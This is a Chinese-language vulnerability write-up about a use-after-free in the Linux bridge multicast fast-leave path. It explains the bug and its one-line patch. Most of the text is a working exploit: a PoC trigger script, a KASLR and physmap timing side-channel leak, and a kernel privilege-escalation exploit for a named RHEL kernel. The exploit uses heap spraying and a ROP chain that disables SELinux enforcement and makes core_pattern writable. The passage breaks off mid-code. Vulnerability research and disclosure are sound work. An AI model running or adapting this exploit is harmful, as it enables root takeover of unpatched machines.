

# CVE-2026-74480

CVE：https://access.redhat.com/security/cve/cve-2026-74480

patch：https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=a39789f211b8a4125f0c70e05b30cf715f4f187d

关注 https://github.com/NebuSec/CyberMeowfia 谢谢喵

## 前置知识

**Linux Bridge**（`网桥`）是一个内核模块，其功能相当于一个纯软件实现的二层网络交换机，核心作用是连接多个网络接口，并基于数据帧中的目标MAC地址进行过滤和转发

普通单播流量依赖**FDB**(`Forwarding Database`，转发表)转发


与单播流量不同，多播（`Multicast`）流量不能只看一个目的MAC地址

因为一个多播组可能同时有多个接收者，且这些接收者可能分布在`Bridge`的不同端口（`Port`）上

Bridge需要精确知道哪些端口后面有主机订阅了某个多播组

因此采用**MDB**（`Multicast Database`，多播数据库）


`Bridge`会监听经过端口的**IGMP/MLD**报文

当某个主机发送`IGMP Report`，代表其想加入这个多播组时，Bridge便会在MDB中记录它

与之相关的数据结构：

`net_bridge_mdb_entry`，代表一个具体的多播组

```c
struct net_bridge_mdb_entry {
	struct rhash_head		rhnode;
	struct net_bridge		*br; // pointer to the owning bridge
	struct net_bridge_port_group __rcu *ports; // list of port groups for this group
	struct br_ip			addr; // multicast group address (IPv4/IPv6)
	bool				host_joined;

	struct timer_list		timer;
	struct hlist_node		mdb_node;

	struct net_bridge_mcast_gc	mcast_gc;
	struct rcu_head			rcu;
};
```

以及`net_bridge_port_group`，代表该多播组在某个Bridge端口上存在一个监听者

```c
struct net_bridge_port_group {
	struct net_bridge_port_group __rcu *next; // next group in the same mdb entry's list
	struct net_bridge_port_group_sg_key key; // key containing the port (and source-group info)
	unsigned char			eth_addr[ETH_ALEN] __aligned(2); // MAC address of the listener (used for mcast_to_unicast)
	unsigned char			flags;
	unsigned char			filter_mode;
	unsigned char			grp_query_rexmit_cnt;
	unsigned char			rt_protocol;

	struct hlist_head		src_list;
	unsigned int			src_ents;
	struct timer_list		timer;
	struct timer_list		rexmit_timer;
	struct hlist_node		mglist;
	struct rb_root			eht_set_tree;
	struct rb_root			eht_host_tree;

	struct rhash_head		rhnode;
	struct net_bridge_mcast_gc	mcast_gc;
	struct rcu_head			rcu;
};

struct net_bridge_port_group_sg_key {
	struct net_bridge_port		*port;
	struct br_ip			addr;
};
```

正常情况下，同一个Bridge Port后面即使有多个主机订阅同一个多播组，Bridge也可以只保留一个port group，因为最终还是向该Port发送多播流量

但对于**Wi-Fi**等场景，多播的效率和可靠性不一定好

于是Linux Bridge提供了multicast_to_unicast

当配置mcast_to_unicast开启时

Bridge收到多播数据包，会先根据多播组地址查MDB找到对应的net_bridge_mdb_entry，然后遍历其ports链表，每遍历到一个net_bridge_port_group节点，就复制一份原始多播包，将目的**MAC**改写为该节点记录的监听者单播地址（`eth_addr`），最后从key.port对应端口发出，一份多播数据也因此被拆解为N份单播帧，分别送达N个监听者

因此，开启mcast_to_unicast后，同一个Port，同一个多播组，可以因为监听者MAC不同而存在多个net_bridge_port_group

函数br_port_group_equal负责判断两个port group是否相同

```c
static bool br_port_group_equal(struct net_bridge_port_group *p,
				struct net_bridge_port *port,
				const unsigned char *src)
{
	if (p->key.port != port)
		return false;

	if (!test_bit(BR_MULTICAST_TO_UNICAST_BIT, &port->flags))
		return true;

	return ether_addr_equal(src, p->eth_addr);
}
```

关键在于，当mcast_to_unicast开启时，必须Port相同且MAC相同，才算同一个group

而当mcast_to_unicast关闭时，只要Port相同，就算是同一个group，这个**相等**的定义会随着运行时配置的变化而改变

## UAF

接下来我们关注fast leave路径

**IGMP Leave**表示主机离开某个多播组，常规流程中，Bridge收到Leave后不会立即删除记录，而是发送`Group-Specific Query`，等待一段时间，如果该端口下没有其它主机响应Report，才会真正删除

这是因为Leave只代表一个主机离开，而该端口后面可能还有其它主机仍在订阅该组

对于有线以太网，这个延迟还勉强可以接受，但是对于IP电视频道切换这种场景，几秒的延迟会严重影响用户体验，用户切换频道后，旧频道的流量仍在转发，造成带宽浪费

Fast Leave通过立即删除来节省带宽，加速频道切换

而漏洞则恰好位于这个快速删除路径中

```c
	if (pmctx &&
	    test_bit(BR_MULTICAST_FAST_LEAVE_BIT, &pmctx->port->flags)) {
		struct net_bridge_port_group __rcu **pp;

		for (pp = &mp->ports;
		     (p = mlock_dereference(*pp, brmctx->br)) != NULL;
		     pp = &p->next) {
			if (!br_port_group_equal(p, pmctx->port, src))
				continue;

			if (p->flags & MDB_PG_FLAGS_PERMANENT)
				break;

			p->flags |= MDB_PG_FLAGS_FAST_LEAVE;
			br_multicast_del_pg(mp, p, pp);
		}
		goto out;
	}
```

我们构造以下状态

首先开启fast leave和mcast_to_unicast，然后让两个具有不同MAC地址的主机加入同一个多播组

此时在MDB的活链表中会形成形如`mp->ports -> P2 -> P1 -> NULL`的结构，其中P1和P2都属于同一个Bridge端口veth0，但各自记录了不同的监听者MAC

紧接着，我们关闭mcast_to_unicast

这一操作立即改变了br_port_group_equal()的判定语义，它不再比较MAC地址，只要两个port group的端口同为veth0，它们在逻辑上就被视为相等了

然而，此时内核并没有触发任何链表重建，mp->ports依然维持着`P2 -> P1`的双节点结构

随后，我们发送一次IGMP Leave报文，上面的删除循环开始遍历mp->ports

第一次循环命中链表头部的P2，此时`pp = &mp->ports`，`p = P2`，调用br_multicast_del_pg后，活链表顺利变为`mp->ports -> P1 -> NULL`，P2被摘除并放入RCU延迟释放队列

接下来出问题了

删除P2后，循环却并未停止，而是继续执行`pp = &p->next`，而由于此时p仍是指向已经被摘链的P2，导致pp被错误地赋值为`&P2->next`，然而P2早已不在活链表中，但它的next指针此刻恰好还保留着原值（指向P1）

于是下一轮循环从*pp（即P2->next）中意外地读取到了P1，并且再次命中删除条件，执行br_multicast_del_pg(mp, P1, &P2->next)，注意这一次修改的目标变为了P2->next = NULL，而非程序原本要修改的mp->ports，循环至此结束

活链表mp->ports依然指向P1，但P1已经被逻辑删除并进入了RCU回收流程

此时mp->ports便成为了一枚悬挂指针，它指向了一块即将被内核异步物理释放的内存

UAF原语就此诞生


## POC

配置要求：

- `CONFIG_BRIDGE=y`
- `CONFIG_BRIDGE_IGMP_SNOOPING=y`
- `CONFIG_VETH=y`
- `CONFIG_IP_MULTICAST=y`
- `CONFIG_IPV6=y`
- `CONFIG_USER_NS=y`
- `CONFIG_NET_NS=y`
- `CONFIG_KASAN=y`

poc.sh：

```bash
#!/bin/sh
set -eu

# Bridge and veth interface names
BR=br0
LISTENER_BR=veth0          # bridge side of listener veth pair
LISTENER_PEER=veth0p       # peer side where we send IGMP packets from
SENDER_BR=veth1            # bridge side of sender veth pair
SENDER_PEER=veth1p         # peer side where we send data packets from

# Multicast group parameters
GROUP=239.1.1.1
GROUP_MAC=01:00:5e:01:01:01
ALL_ROUTERS=224.0.0.2
ALL_ROUTERS_MAC=01:00:5e:00:00:02

# MAC/IP addresses for two listeners (A and B) and one sender (C)
MAC_A=02:00:00:00:00:0a
MAC_B=02:00:00:00:00:0b
MAC_C=02:00:00:00:00:0c
SRC_A=10.0.0.10
SRC_B=10.0.0.11
SRC_C=10.0.1.10

cleanup() {
	ip link del "$BR" 2>/dev/null || true
	ip link del "$LISTENER_PEER" 2>/dev/null || true
	ip link del "$SENDER_PEER" 2>/dev/null || true
}

# Send IGMP/MLD or data packets via Scapy
send_pkt() {
	python3 - "$@" <<'PY'
import sys
from scapy.all import Ether, IP, UDP, sendp
from scapy.contrib.igmp import IGMP
from scapy.layers.inet import IPOption_Router_Alert

op = sys.argv[1]
iface = sys.argv[2]

if op == "join":
    # IGMP Report (type 0x16) - join a multicast group
    src_mac, src_ip, group_mac, group_ip = sys.argv[3:7]
    pkt = (
        Ether(src=src_mac, dst=group_mac)
        / IP(src=src_ip, dst=group_ip, ttl=1, options=[IPOption_Router_Alert()])
        / IGMP(type=0x16, gaddr=group_ip)
    )
elif op == "leave":
    # IGMP Leave (type 0x17) - leave a multicast group, sent to 224.0.0.2 (all-routers)
    src_mac, src_ip, dst_mac, dst_ip, group_ip = sys.argv[3:8]
    pkt = (
        Ether(src=src_mac, dst=dst_mac)
        / IP(src=src_ip, dst=dst_ip, ttl=1, options=[IPOption_Router_Alert()])
        / IGMP(type=0x17, gaddr=group_ip)
    )
elif op == "data":
    # Multicast UDP data packet, dest MAC is the multicast group MAC
    src_mac, src_ip, group_mac, group_ip = sys.argv[3:7]
    pkt = (
        Ether(src=src_mac, dst=group_mac)
        / IP(src=src_ip, dst=group_ip, ttl=8)
        / UDP(sport=12345, dport=12345)
        / (b"A" * 64)
    )
else:
    raise SystemExit(f"unknown op {op}")

sendp(pkt, iface=iface, verbose=False)
PY
}

cleanup
trap cleanup EXIT

# Create bridge with IGMP snooping enabled
ip link add "$BR" type bridge mcast_snooping 1
ip link set "$BR" up

# Create two veth pairs: one for listeners, one for sender
ip link add "$LISTENER_PEER" type veth peer name "$LISTENER_BR"
ip link add "$SENDER_PEER" type veth peer name "$SENDER_BR"

# Attach bridge-side ends to the bridge
ip link set "$LISTENER_BR" master "$BR"
ip link set "$SENDER_BR" master "$BR"

# Bring all interfaces up
ip link set "$LISTENER_BR" up
ip link set "$SENDER_BR" up
ip link set "$LISTENER_PEER" up
ip link set "$SENDER_PEER" up

# Enable fastleave and mcast_to_unicast on listener port
bridge link set dev "$LISTENER_BR" fastleave on mcast_to_unicast on
bridge link set dev "$SENDER_BR" fastleave off mcast_to_unicast off

# Inject two IGMP Reports from MAC_A and MAC_B on the listener port
# This creates two port_group entries (P2 and P1) in MDB: mp->ports -> P2 -> P1
send_pkt join "$LISTENER_PEER" "$MAC_A" "$SRC_A" "$GROUP_MAC" "$GROUP"
send_pkt join "$LISTENER_PEER" "$MAC_B" "$SRC_B" "$GROUP_MAC" "$GROUP"
sleep 1

echo "[+] MDB after joins"
bridge -d mdb show dev "$BR" || true

# CRITICAL: turn off mcast_to_unicast
# This changes br_port_group_equal() semantics: same port => equal, MAC ignored
# Now P2 and P1 are logically "the same" but both still exist in the list
bridge link set dev "$LISTENER_BR" mcast_to_unicast off

# Send IGMP Leave from MAC_A to trigger the bug
send_pkt leave "$LISTENER_PEER" "$MAC_A" "$SRC_A" "$ALL_ROUTERS_MAC" "$ALL_ROUTERS" "$GROUP"

echo "[+] MDB right after leaves"
bridge -d mdb show dev "$BR" || true

sleep 5

# Trigger UAF: send multicast data, kernel traverses mp->ports and hits freed P1
echo "[+] Triggering dereference through multicast forwarding"
send_pkt data "$SENDER_PEER" "$MAC_C" "$SRC_C" "$GROUP_MAC" "$GROUP"
sleep 1

# Another trigger via mdb dump (also traverses the same stale pointer)
echo "[+] Triggering dereference through bridge mdb dump"
bridge -d mdb show dev "$BR"
```

## patch

```bash
diff --git a/net/bridge/br_multicast.c b/net/bridge/br_multicast.c
index 6b3ac473fd228..00aa9b2879d6e 100644
--- a/net/bridge/br_multicast.c
+++ b/net/bridge/br_multicast.c
@@ -3687,6 +3687,7 @@ br_multicast_leave_group(struct net_bridge_mcast *brmctx,
 
 			p->flags |= MDB_PG_FLAGS_FAST_LEAVE;
 			br_multicast_del_pg(mp, p, pp);
+			break;
 		}
 		goto out;
 	}
```

加一行break即可

在Fast Leave路径中，收到一个Leave报文，只需要删除一个匹配的port group即可

在未开启mcast_to_unicast时，同一个端口下多个监听者共享同一个port group，删除一次就够了

而在开启mcast_to_unicast时，虽然每个监听者有独立的port group，但一次Leave也只代表一个主机离开，删除其对应的那一个节点后即可停止遍历

这样就既没有影响原语义，也阻止了UAF的产生

## LPE

kernel version：RHEL-6.12.0-211.7.3.el10_2

copyright：

```
/*
 * Copyright 2026 Nebula Security
 *
 * Licensed under the Apache License, Version 2.0 (the "License");
 * you may not use this file except in compliance with the License.
 * You may obtain a copy of the License at
 *
 *     https://www.apache.org/licenses/LICENSE-2.0
 *
 * Unless required by applicable law or agreed to in writing, software
 * distributed under the License is distributed on an "AS IS" BASIS,
 * WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
 * See the License for the specific language governing permissions and
 * limitations under the License.
 *
 * SPDX-License-Identifier: Apache-2.0
 */
```

leak.h：

```c
#ifndef LEAK_H
#define LEAK_H

#ifdef __cplusplus
extern "C" {
#endif

uint64_t leak_image_slide(int map_cnt);
uint64_t leak_phys_map_base_stable(int map_cnt);

#ifdef __cplusplus
}
#endif

#endif
```

leak_fast.c：

```c
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#include "leak.h"

#define KASLR_START 0xffffffff81000000ULL
#define KASLR_END (KASLR_START + 0x40000000ULL)
#define KASLR_SLOT_SIZE 0x200000ULL

#define PHYSMAP_START 0xffff888000000000ULL
#define PHYSMAP_END 0xffffa48000000000ULL
#define PHYSMAP_SLOT_SIZE 0x40000000ULL
#define PHYSMAP_PROBE_OFFSET 0x10000000ULL

static inline uint64_t rdtsc_begin(void)
{
	uint32_t lo, hi;

	asm volatile("mfence; rdtscp; lfence"
		     : "=a"(lo), "=d"(hi) : : "rcx", "memory");
	return ((uint64_t)hi << 32) | lo;
}

static inline uint64_t rdtsc_end(void)
{
	uint32_t lo, hi;

	asm volatile("lfence; rdtscp; mfence"
		     : "=a"(lo), "=d"(hi) : : "rcx", "memory");
	return ((uint64_t)hi << 32) | lo;
}

static inline uint64_t prefetch_time(uint64_t address)
{
	uint64_t before = rdtsc_begin();

	asm volatile("prefetchnta (%0); prefetcht2 (%0)"
		     : : "r"(address) : "memory");
	return rdtsc_end() - before;
}

static int compare_u64(const void *left, const void *right)
{
	uint64_t a = *(const uint64_t *)left;
	uint64_t b = *(const uint64_t *)right;

	return (a > b) - (a < b);
}

static uint64_t median_copy(const uint64_t *values, size_t count)
{
	uint64_t *copy = malloc(count * sizeof(*copy));
	uint64_t result;

	if (!copy) {
		perror("malloc leak median");
		exit(1);
	}
	memcpy(copy, values, count * sizeof(*copy));
	qsort(copy, count, sizeof(*copy), compare_u64);
	result = copy[count / 2];
	free(copy);
	return result;
}

static size_t find_edge(const uint64_t *timings, size_t count,
			size_t window)
{
	uint64_t median = median_copy(timings, count);
	uint64_t current = 0;
	uint64_t best;
	size_t best_slot = 0;

	if (!window || count < window) {
		fprintf(stderr, "invalid prefetch window\n");
		exit(1);
	}
	for (size_t i = 0; i < window; i++)
		current += timings[i] > median ? timings[i] - median :
						   median - timings[i];
	best = current;
	for (size_t i = 1; i <= count - window; i++) {
		uint64_t old = timings[i - 1];
		uint64_t add = timings[i + window - 1];

		current -= old > median ? old - median : median - old;
		current += add > median ? add - median : median - add;
		if (current > best) {
			best = current;
			best_slot = i;
		}
	}
	return best_slot;
}

static uint64_t image_trial(int map_pages)
{
	const size_t count = (KASLR_END - KASLR_START) / KASLR_SLOT_SIZE;
	uint64_t *timings = malloc(count * sizeof(*timings));
	size_t edge;
	uint64_t result;

	if (!timings) {
		perror("malloc KASLR timings");
		exit(1);
	}
	for (size_t i = 0; i < count; i++)
		timings[i] = UINT64_MAX;
	for (int sample = 0; sample < 300; sample++) {
		for (size_t i = 0; i < count; i++) {
			uint64_t value = prefetch_time(KASLR_START +
						       i * KASLR_SLOT_SIZE);

			if (value < timings[i])
				timings[i] = value;
		}
	}
	edge = find_edge(timings, count, map_pages);
	/* The RHEL image's first detectable 2-MiB slot starts at _text. */
	result = KASLR_START + edge * KASLR_SLOT_SIZE;
	free(timings);
	return result;
}

uint64_t leak_image_slide(int map_pages)
{
	for (int round = 0; round < 5; round++) {
		uint64_t candidate[3];

		for (int i = 0; i < 3; i++)
			candidate[i] = image_trial(map_pages);
		for (int i = 0; i < 3; i++) {
			int votes = 0;

			for (int j = 0; j < 3; j++)
				votes += candidate[i] == candidate[j];
			if (votes >= 2) {
				printf("[!] Leaked KASLR base: 0x%llx\n",
				       (unsigned long long)candidate[i]);
				printf("[!] KASLR slide: 0x%llx\n",
				       (unsigned long long)(candidate[i] -
							KASLR_START));
				return candidate[i] - KASLR_START;
			}
		}
	}
	fprintf(stderr, "failed to leak KASLR base\n");
	exit(1);
}

static uint64_t physmap_trial(void)
{
	const size_t count = (PHYSMAP_END - PHYSMAP_START) / PHYSMAP_SLOT_SIZE;
	uint64_t *timings = malloc(count * sizeof(*timings));
	uint64_t candidate_timings[5];
	uint64_t candidate_samples[5][101];
	size_t edge;
	size_t first;
	size_t last;
	size_t selected;
	uint64_t second_best = 0;
	uint64_t result;

	if (!timings) {
		perror("malloc physmap timings");
		exit(1);
	}
	for (size_t i = 0; i < count; i++)
		timings[i] = UINT64_MAX;
	for (int sample = 0; sample < 20; sample++) {
		for (size_t i = 0; i < count; i++) {
			uint64_t address = PHYSMAP_START + i * PHYSMAP_SLOT_SIZE +
					   PHYSMAP_PROBE_OFFSET;
			uint64_t value = prefetch_time(address);

			if (value < timings[i])
				timings[i] = value;
		}
	}
	/*
	 * Under an otherwise idle boot, the maximum three-slot edge window starts
	 * two 1-GiB slots below page_offset_base.  Heavy trace/workqueue activity
	 * can instead make the mapped slot itself win the edge score.  Re-probe a
	 * five-slot neighborhood and select the slot with the highest median.  A
	 * present direct-map entry completes the deeper speculative page-table
	 * walk and is consistently slower here than an adjacent not-present slot.
	 * With the target's
	 * 1-GiB RAM size, only page_offset_base + PHYSMAP_PROBE_OFFSET is backed in
	 * this neighborhood; the adjacent 1-GiB slots are unmapped.
	 */
	edge = find_edge(timings, count, 3);
	first = edge >= 2 ? edge - 2 : 0;
	last = edge + 2 < count ? edge + 2 : count - 1;
	selected = first;
	for (int sample = 0; sample < 101; sample++) {
		uint64_t offset = PHYSMAP_PROBE_OFFSET +
			(((uint64_t)sample * 0x1f123bb5ULL) & 0x1ffff000ULL);

		for (size_t slot = first; slot <= last; slot++)
			candidate_samples[slot - first][sample] =
				prefetch_time(PHYSMAP_START +
					      slot * PHYSMAP_SLOT_SIZE + offset);
	}
	for (size_t slot = first; slot <= last; slot++) {
		uint64_t median = median_copy(candidate_samples[slot - first], 101);

		candidate_timings[slot - first] = median;
		printf("[.] physmap candidate slot %zu: median %llu cycles\n",
		       slot, (unsigned long long)median);
		if (median > candidate_timings[selected - first])
			selected = slot;
	}
	result = PHYSMAP_START + selected * PHYSMAP_SLOT_SIZE;
	printf("[.] physmap edge slot %zu selected %zu (median %llu cycles)\n",
	       edge, selected,
	       (unsigned long long)candidate_timings[selected - first]);
	for (size_t slot = first; slot <= last; slot++) {
		if (slot != selected &&
		    candidate_timings[slot - first] > second_best)
			second_best = candidate_timings[slot - first];
	}
	/* A false broad edge has no unique slow mapped slot. */
	if (candidate_timings[selected - first] < second_best + 4) {
		printf("[.] rejected weak physmap edge (margin %lld cycles)\n",
		       (long long)candidate_timings[selected - first] -
		       (long long)second_best);
		result = 0;
	}
	free(timings);
	return result;
}

uint64_t leak_phys_map_base_stable(int unused_map_pages)
{
	uint64_t candidate[3];

	(void)unused_map_pages;
	for (int round = 0; round < 5; round++) {
		int valid = 0;

		for (int attempts = 0; valid < 3 && attempts < 12; attempts++) {
			uint64_t value = physmap_trial();

			if (value)
				candidate[valid++] = value;
		}
		if (valid < 3)
			continue;
		for (int i = 0; i < 3; i++) {
			int votes = 0;

			for (int j = 0; j < 3; j++)
				votes += candidate[i] == candidate[j];
			if (votes >= 2) {
				printf("[!] Leaked phys map base: 0x%llx\n",
				       (unsigned long long)candidate[i]);
				return candidate[i];
			}
		}
	}
	fprintf(stderr, "failed to leak physmap base\n");
	exit(1);
}
```

基于**微架构侧信道时序攻击**（Microarchitectural Side-Channel Timing Attack）

我们通过prefetchnta/prefetcht2指令预取内存地址，并利用rdtscp精确测量耗时差异，区分有效与无效内存页的页表遍历深度

在KASLR开启的情况下，以2MB为步长扫描内核虚拟地址空间，通过**滑动窗口**检测`高时延簇`，定位`_text`段起始地址，随后采用三分投票机制稳定泄露内核基址偏移

对于直接物理映射区域，我们以1GB步长粗扫结合5槽位精细重采样，识别唯一存在的物理内存槽位，泄露physmap基址

exploit.c：

```c
#define _GNU_SOURCE

#include <arpa/inet.h>
#include <errno.h>
#include <fcntl.h>
#include <linux/if_bridge.h>
#include <linux/if_ether.h>
#include <linux/if_link.h>
#include <linux/keyctl.h>
#include <linux/netlink.h>
#include <linux/rtnetlink.h>
#include <linux/veth.h>
#include <net/if.h>
#include <netpacket/packet.h>
#include <netinet/in.h>
#include <pthread.h>
#include <poll.h>
#include <sched.h>
#include <signal.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/sendfile.h>
#include <sys/socket.h>
#include <sys/stat.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <time.h>
#include <unistd.h>

#include "leak.h"

#define ARRAY_SIZE(x) (sizeof(x) / sizeof((x)[0]))

#define KERNEL_BASE 0xffffffff81000000ULL
#define KERNEL_IMAGE_PAGES 29
#define CPU1_CEA_PHYS_OFFSET 0x3d118f58ULL

/* RHEL 10.2, kernel 6.12.0-211.7.3.el10_2.x86_64. */
#define OFF_PIVOT_RBX 0xa69585ULL
#define OFF_POP_RSI 0x2c9ULL
#define OFF_WRITE_EAX4 0x783a4ULL
#define OFF_WRITE_MODE_0666 0x8f32ceULL
#define OFF_DO_EXIT 0x14ce20ULL
#define OFF_CORE_PATTERN_MODE 0x26b136cULL
#define OFF_SELINUX_STATE 0x344e760ULL

#define KEY_SPEC_PROCESS_KEYRING -2
#define USER_PAYLOAD_LEN 225
#define PG_MGLIST_NEXT 168
#define PG_MGLIST_PPREV 176
#define PG_MCAST_GC_NEXT 208
#define PG_MCAST_DESTROY 224
#define PAYLOAD_OFFSET 24
#define SPRAY_PER_CPU 39
#define RECLAIM_DELAY_US 5500000
#define POLL_FILLERS_PER_CPU 192
#define GC_PADDING_GROUPS 4096
#define EARLY_SPRAY_DELAY_US 5000

static uint64_t kernel_slide;
static uint64_t physmap_base;
static uint64_t cea;
static uint64_t pivot_rbx;
static uint64_t pop_rsi;
static uint64_t write_eax4;
static uint64_t write_mode_0666;
static uint64_t do_exit_addr;
static uint64_t core_pattern_mode;
static uint64_t selinux_enforcing;
static int addresses_resolved;
static long spray_keyring = KEY_SPEC_PROCESS_KEYRING;

static int stage2_ready[2];
static int won_pipe[2];
static int poll_fill_ready[2];
static long long spray_epoch_ns;
static int spray_epoch_armed;

static void die(const char *what);

struct cea_regs15_payload {
    uint64_t r15;
    uint64_t r14;
    uint64_t r13;
    uint64_t r12;
    uint64_t rbp;
    uint64_t rbx;
    uint64_t r11;
    uint64_t r10;
    uint64_t r9;
    uint64_t r8;
    uint64_t rax;
    uint64_t rcx;
    uint64_t rdx;
    uint64_t rsi;
    uint64_t rdi;
};

static void pin_cpu(int cpu)
{
    cpu_set_t set;

    CPU_ZERO(&set);
    CPU_SET(cpu, &set);
    if (sched_setaffinity(0, sizeof(set), &set) < 0)
        die("sched_setaffinity");
}

static void *hold_kmalloc_256(void *argument)
{
    struct pollfd entries[60];
    int cpu = (int)(intptr_t)argument;

    pin_cpu(cpu);
    memset(entries, 0, sizeof(entries));
    for (size_t i = 0; i < ARRAY_SIZE(entries); i++)
        entries[i].fd = -1;
    if (write(poll_fill_ready[1], "P", 1) != 1)
        return NULL;
    (void)poll(entries, ARRAY_SIZE(entries), 60000);
    return NULL;
}

static void fill_kmalloc_256_freelists(void)
{
    pthread_t thread;
    char ready;
    int count = POLL_FILLERS_PER_CPU * 2;

    if (pipe(poll_fill_ready))
        die("pipe poll fill");
    for (int i = 0; i < count; i++) {
        if (pthread_create(&thread, NULL, hold_kmalloc_256,
                           (void *)(intptr_t)(i & 1)))
            die("pthread_create poll fill");
        pthread_detach(thread);
    }
    for (int i = 0; i < count; i++) {
        if (read(poll_fill_ready[0], &ready, 1) != 1)
            die("read poll fill ready");
    }
    usleep(100000);
    puts("[+] pinned kmalloc-256 filler objects");
}

static void resolve_addresses(void)
{
    if (addresses_resolved)
        return;
    kernel_slide = leak_image_slide(KERNEL_IMAGE_PAGES);
    physmap_base = leak_phys_map_base_stable(11);
    cea = physmap_base + CPU1_CEA_PHYS_OFFSET;
    pivot_rbx = KERNEL_BASE + OFF_PIVOT_RBX + kernel_slide;
    pop_rsi = KERNEL_BASE + OFF_POP_RSI + kernel_slide;
    write_eax4 = KERNEL_BASE + OFF_WRITE_EAX4 + kernel_slide;
    write_mode_0666 = KERNEL_BASE + OFF_WRITE_MODE_0666 + kernel_slide;
    do_exit_addr = KERNEL_BASE + OFF_DO_EXIT + kernel_slide;
    core_pattern_mode = KERNEL_BASE + OFF_CORE_PATTERN_MODE + kernel_slide;
    selinux_enforcing = KERNEL_BASE + OFF_SELINUX_STATE + kernel_slide;
    printf("[+] CEA=%#llx pivot=%#llx\n", (unsigned long long)cea,
           (unsigned long long)pivot_rbx);
    addresses_resolved = 1;
}

__attribute__((naked, noreturn))
static void spin_stage2(const struct cea_regs15_payload *p __attribute__((unused)))
{
    asm volatile(
        "mov %rdi, %rax\n\t"
        "mov 0x00(%rax), %r15\n\t"
        "mov 0x08(%rax), %r14\n\t"
        "mov 0x10(%rax), %r13\n\t"
        "mov 0x18(%rax), %r12\n\t"
        "mov 0x20(%rax), %rbp\n\t"
        "mov 0x28(%rax), %rbx\n\t"
        "mov 0x30(%rax), %r11\n\t"
        "mov 0x38(%rax), %r10\n\t"
        "mov 0x40(%rax), %r9\n\t"
        "mov 0x48(%rax), %r8\n\t"
        "mov 0x58(%rax), %rcx\n\t"
        "mov 0x60(%rax), %rdx\n\t"
        "mov 0x68(%rax), %rsi\n\t"
        "mov 0x70(%rax), %rdi\n\t"
        "mov 0x50(%rax), %rax\n\t"
        "1: pause\n\t"
        "jmp 1b\n\t");
}

static void run_stage2(void)
{
    static struct cea_regs15_payload regs;
    uint64_t *q = (uint64_t *)&regs;

    /* br_multicast_gc loads gc_node.next into RBX before the CFH call. */
    /*
     * hlist_del_init() writes the predecessor pointer to gc_node.next+8,
     * so CEA q[1] is unavoidably clobbered immediately before the callback.
     * The RHEL pivot executes `push rbx; pop rsp`, then jumps into a normal
     * epilogue which skips q[0], consumes q[1] through q[5] as saved
     * registers, and returns through q[6].
     */
    q[0] = 0;
    q[1] = 0;
    q[2] = 0;
    q[3] = 0;
    q[4] = 0;
    q[5] = 0;
    /*
     * The pivot epilogue starts with `xor eax,eax`, so the first compact store
     * clears selinux_state.enforcing without needing a value-pop gadget.  The
     * second compact gadget executes:
     *
     *   mov eax, 0x1b6; mov word ptr [rsi], ax;
     *   xor eax, eax; jmp __x86_return_thunk
     *
     * A 16-bit write is exact for ctl_table.mode and preserves the adjacent
     * sysctl flags.  Both policy changes therefore fit in the single CEA frame
     * produced by the assigned UAF; do_exit is the non-returning tail.
     */
    q[6] = pop_rsi;
    q[7] = selinux_enforcing;
    q[8] = write_eax4;
    q[9] = pop_rsi;
    q[10] = core_pattern_mode;
    q[11] = write_mode_0666;
    q[12] = do_exit_addr;
    q[13] = 0;

    pin_cpu(1);
    if (write(stage2_ready[1], "R", 1) != 1)
        _exit(1);
    spin_stage2(&regs);
}

static int root_helper(const char *pid_string)
{
    char flag[4096];
    int pid = atoi(pid_string);
    int pfd = syscall(SYS_pidfd_open, pid, 0);
    int out = syscall(SYS_pidfd_getfd, pfd, 1, 0);
    int fd = open("/flag", O_RDONLY);
    int proof = open("/tmp/.a397-proof", O_WRONLY | O_CREAT | O_TRUNC,
                     0644);
    ssize_t n;

    if (out >= 0)
        dup2(out, STDOUT_FILENO);
    if (fd < 0)
        return 1;
    (void)!write(STDOUT_FILENO, "RHEL_FLAG_OK\n", 13);
    if (proof >= 0)
        (void)!write(proof, "RHEL_FLAG_OK\n", 13);
    n = read(fd, flag, sizeof(flag));
    if (n > 0) {
        char *zero = memchr(flag, 0, n);

        if (zero)
            n = zero - flag;
        (void)!write(STDOUT_FILENO, flag, n);
        if (proof >= 0)
            (void)!write(proof, flag, n);
        if (!n || flag[n - 1] != '\n')
            (void)!write(STDOUT_FILENO, "\n", 1);
        if (proof >= 0 && (!n || flag[n - 1] != '\n'))
            (void)!write(proof, "\n", 1);
    }
    if (proof >= 0)
        close(proof);
    return 0;
}

static void prepare_regular_helper(void)
{
